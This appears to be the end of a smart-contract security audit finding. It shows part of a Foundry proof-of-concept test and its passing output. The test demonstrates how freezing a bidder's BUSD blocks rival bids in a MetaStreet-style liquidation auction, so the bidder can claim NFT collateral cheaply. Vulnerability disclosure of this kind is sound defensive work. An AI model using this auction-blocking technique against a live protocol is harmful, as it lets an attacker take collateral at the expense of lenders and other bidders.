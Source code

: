 ```solidity
        busd.approve(address(liquidator), type(uint256).max);
		cheats.expectRevert();
        liquidator.bid(coolCats, coolCatsId, 7 ether);

        console.log("Step 3.4 Bidder can claiming NFT without further bidding!!!");
        cheats.warp(block.timestamp + 2 days);
		cheats.startPrank(bidder);
        liquidator.claim(coolCats, coolCatsId, encodedLoanReceipt);
    }
}
```

## Output

```
[PASS] testMetaStreetBid() (gas: 824421)
Logs:
  New pool created with BUSD...
  Step 1: Depositing...
  Step 2: Borrowing...
  Step 3: Liquidating...
  Step 3.1: Depositor Bidding...
  Step 3.2 Freezing BUSD asset of bidder...
  Step 3.3 Another's bidding will revert!!!
  Step 3.4 Bidder can claiming collateral cheaply without further bidding!!!
```